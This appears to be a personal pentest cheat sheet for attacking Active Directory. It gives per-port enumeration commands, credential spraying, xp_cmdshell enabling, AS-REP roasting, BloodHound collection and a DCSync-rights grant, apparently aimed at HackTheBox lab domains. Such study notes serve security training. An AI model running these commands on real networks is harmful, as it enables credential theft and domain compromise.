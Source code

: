 #### AD GROUP EXPLOIT
- [[AD_GROUP_EXPLOIT]]

#### RESSOURCE
- cool repos [winpwn](https://github.com/S3cur3Th1sSh1t/WinPwn) automations
- [Payload all the thing AD](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#using-bloodhound)
- [OCD mindmap for AD audit (scroll down) ](https://orange-cyberdefense.github.io/ocd-mindmaps/img/pentest_ad_dark_2022_11.svg)
- [WADComs is an interactive cheat sheet, containing a curated list of offensive security tools and their respective commands, to be used against Windows/AD environments.](https://wadcoms.github.io/)
- [Attack Active directory from zero to her (very cool stuff)](https://zer1t0.gitlab.io/posts/attacking_ad)
- [CVE DATABASE](https://cvepremium.circl.lu/)
- [list of ANSSI of potential AD Controle Point](https://www.cert.ssi.gouv.fr/uploads/guide-ad.html)

#### Exemple of standardised windows port
- 139 (smb)
	-  Try eternal blue 
		- nmap --script smb-vuln IP-RANGE
	- verify SMB protocol
		- crackmapexec smb IP-RANGE
	- enum smb
		- smbclient //IP/PATH -c 'recurse;ls'
- 135 (RPC)
	- impacket-rpcdump IP
	- impacket-lookupsid "user:pwd"@IP # if you have valid cred for this one. 

- 443 (smb)
- 445 (smb)
	- crackmapexec smb  -u username.txt -p password.txt --shares 10.10.10.149 # donne la capacitée de voir les droit d'acces au share. 
- 389 (LDAP)
	-  Reco
		- nmap -n -sV --script "ldap* and not brute" -p "IP" # liste les informations en lien avec le LDAP
	- Connexions
		- ldapsearch -x -H LDAP://IP -D 'LDAP-SERVER-NAME\ldap' -w 'PASSWORD' -b "CN=NMAP-LDAP-RESULT,DC=NMAP-LDAP-RESULT"
	- DUMP 
		- ldapdomaindump -u DMAIN\\USERS -p PASSWORD IP --no-json --no-grep # get 
- 1443 (mssql) 
	-  [msdat](https://github.com/quentinhardy/msdat) framwork d'audit du service ms-sql 
	- [ressource](https://www.hackingarticles.in/mssql-for-pentester-command-execution-with-xp_cmdshell/) intéréssante sur le hack mssql
	- impacket-mssqlclient
		- enable xp_cmdshell # permet de lancer une comand a partir du mssql
- 3389 (RDP)
	- can try with XfreeRDP on linux  
		- xfreerdp /u:amdin /p:passwd /v:IP
	- Detect if vulnerable to [BLUEKEEP or other stuff](https://github.com/robertdavidgraham/rdpscan)

- 5985 (winRM HTTP) 
	- Detectec with this nuclei yaml: [[detect-winrm-HTTP]]
	- [EvilWinRM](https://github.com/Hackplayers/evil-winrm)
- 5986 (winRM HTTPS)
	- Detectec with this nuclei yaml: [[detect-winrm-HTTPS]]
	- [EvilWinRM](https://github.com/Hackplayers/evil-winrm)

#### command technique 
- ASREPROAST 
	- impacket-GetNPUsers painters.htb/ -dc-ip 192.168.110.55 -usersfile userlist.txt -format hashcat -outputfile o.txt
	- impacket-GetNPUsers DOMAIN/  -usersfile employe_name.txt -dc-ip IP
	- impacket-GetNPUsers htb.local/ -usersfile userlist.txt -dc-ip 10.10.10.161 -no-pass
  ### bloodhound export 
	- bloodhound-python -d domain_name.TLD   -u USERS -p PASSWORD  -gc computer_name.domain.TLD -c All -ns COMPUTER_IP # TLD stand for top level domain
### dcsync right 
-  Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity useracct1 -Rights DCSync